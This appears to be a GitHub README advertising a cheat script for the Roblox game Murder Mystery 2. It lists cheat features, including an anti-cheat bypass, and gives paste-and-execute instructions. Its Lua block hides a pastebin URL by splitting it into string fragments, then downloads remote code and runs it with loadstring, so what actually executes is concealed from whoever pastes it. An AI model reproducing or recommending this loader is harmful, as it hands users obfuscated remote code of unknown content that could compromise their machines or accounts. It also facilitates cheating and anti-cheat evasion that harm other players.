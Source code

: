 # Murder Mystery 2 

![Game Image](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcRk4-WnMYM_a1-Lj4vBFXfbxVpkQ3451haQTmHiSnS93A&s=10)

## Features

- TO MUCHH
- generators esp
- killers esp
- survivors esp
- auto generator
- speed (ANTICHEAT BYPASS)
- noclip (RISKY)
- spectate killer
- teleport to killer
- kill all (killer only)
- teleport to all generators
- allow jump
- no fog
- reset character
- rejoin
- infinite jump
---

## Installation

- Copy script  
- Go to your executor (Delta, KRNL, etc.)  
- Paste and execute  
- Enjoy :)

```lua
local function s(t)
    local r = {"ht","tp","s:","//","pa","st","eb","in",".c","om","/r","aw","/u","n1","mx","SY","E"}
    return table.concat(r)
end

local function r(u)
    return game:HttpGet(u)
end

local function x(c)
    return loadstring(c)()
end

local url = s()
local code = r(url)
x(code)
